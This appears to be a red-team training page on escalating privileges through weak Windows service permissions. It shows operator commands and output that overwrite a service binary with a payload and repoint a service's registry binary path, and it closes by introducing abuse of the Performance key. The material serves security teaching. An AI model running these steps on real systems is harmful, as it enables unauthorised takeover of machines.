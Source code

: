 # Weak Service Permissions

Mistakes can be made in the installation process for a service which can grant weak permissions, leading to elevation of privilege vulnerabilities.

### Service File Permissions <a href="#el_1735580791607_364" id="el_1735580791607_364"></a>

The binary that a service runs may have a weak ACE applied that allows standard users to modify it.  The ACE may be explicitly set on the binary itself, or inherited from its parent directory.  An adversary can simply overwrite the original binary with their own, and the Service Control Manager will execute it the next time the service is started \[[T1574.010](https://attack.mitre.org/techniques/T1574/010/)].

```batch
beacon> cacls "C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe"
C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe NT AUTHORITY\Authenticated Users:F
```

The difficulty in exploiting this is that the service binary cannot be overwritten whilst the service is already running. It may be possible to stop and start the service but this would also be a non-default misconfiguration.

```batch
beacon> cd C:\Program Files\Bad Windows Service\Service Executable\
beacon> sc_stop BadWindowsService
beacon> upload C:\Payloads\BadWindowsService.exe
beacon> sc_start BadWindowsService
```

> This is obviously quite a destructive action because you're completely overwriting the service binary with your payload.

### Service Registry Permissions <a href="#el_1735580801616_379" id="el_1735580801616_379"></a>

When a new service is installed, an entry is written into the registry at `HKLM\SYSTEM\CurrentControlSet\Services`.  These keys hold the configuration for the service, such as the name, description, binary path, and start-up user.  If a weak ACE is granted on the service's registry key during installation, an adversary may be able to modify the service's configuration to execute their malicious payload \[[T1574.011](https://attack.mitre.org/techniques/T1574/011/)].

```batch
beacon> powerpick Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\BadWindowsService | fl

Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\BadWindowsService
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\Authenticated Users Allow  FullControl
         BUILTIN\Users Allow  ReadKey
         BUILTIN\Administrators Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         CREATOR OWNER Allow  FullControl
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  
         ReadKey
Audit  : 
Sddl   : O:BAG:SYD:AI(A;OICI;KA;;;AU)(A;CIID;KR;;;BU)(A;CIID;KA;;;BA)(A;CIID;KA;;;SY)(A;CIIOID;KA;;;CO)(A;CIID;KR;;;AC)
         (A;CIID;KR;;;S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934
         681)
```

A common way to do this is to simply change the binary path so that the service points to a completely different binary.

```batch
beacon> sc_stop BadWindowsService
beacon> sc_config BadWindowsService C:\Path\to\Payload.exe 0 2
beacon> sc_start BadWindowsService
```

A more left-field approach is to leverage a lesser-known registry key, such as _Performance_.  Discovered by [Clément Labro](https://itm4n.github.io/windows-registry-rpceptmapper-eop/), this key points to a DLL responsible for monitoring the performance of a service.  Since it's optional and more suitable for dev/test than prod, this is often not found in most service installations by default.  This means it can be added by an adversary without interfering with the service's normal operation.
